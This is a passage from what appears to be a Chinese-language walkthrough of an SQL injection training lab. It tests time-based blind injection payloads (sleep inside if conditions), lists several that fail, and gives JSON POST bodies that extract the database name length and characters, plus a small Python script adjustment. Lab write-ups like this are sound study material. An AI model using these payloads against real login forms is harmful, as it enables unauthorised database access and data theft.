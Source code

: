 ```
"and if(1=1,sleep(2),1)# 失败
%27and if(1=1,sleep(2),1)%23 失败
'and if(1=1,sleep(2),1)%23 失败
%22and if(1=1,sleep(2),1)%23 失败
')and if(1=1,sleep(2),1)%23 失败
")and if(1=1,sleep(2),1)%23 失败
")and if(1=1,sleep(2),1)%23 失败
....看原代码
```

![image-20220921133354183](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921133354183.png)

sql没有进行任何处理，按理来说`'and if(1=1,sleep(2),1)%23`这个应该没有问题啊？🤔

继续尝试一番后发现将and换成or，可以执行，但是因为是or所以select没查询一条，就sleep一次，这个时候要么使用正常的账号名称再在里面加上注入语句，要么将休眠的时间改小，我这里改0.1秒，查完后是1.3秒，所以使用改休眠时间的方法

获取长度（注意python的json.loads()不能用‘包裹字段和值）

```
{
"uname":"%27or if(length(database())=*_*,sleep(0.1),1) limit 0,1%23",
"passwd":"ss",
"submit":"Submit"
}
```

获取数据库名字

```
{
"uname":"%27or if(substr(database(),1,1)=%27*_*%27,sleep(0.1),1) limit 0,1%23",
"passwd":"ss",
"submit":"Submit"
}
```

因为是post请求，所以需要修改脚本，将之前的self.sql_test当成参数

```python
from urllib.parse import unquote
import json
# 对请求里的url编码进行解码
text = unquote(url.replace("*_*", str(i)), 'utf-8')
# 然后将text转化为json文件，发送给服务器
json.loads(text)
```

![image-20220921144015672](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921144015672.png)

## 第十六关

![image-20220921172505349](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921172505349.png)

根据这个描述，可以知道使用基于报错的盲注，所以一开始尝试获取成功的信息
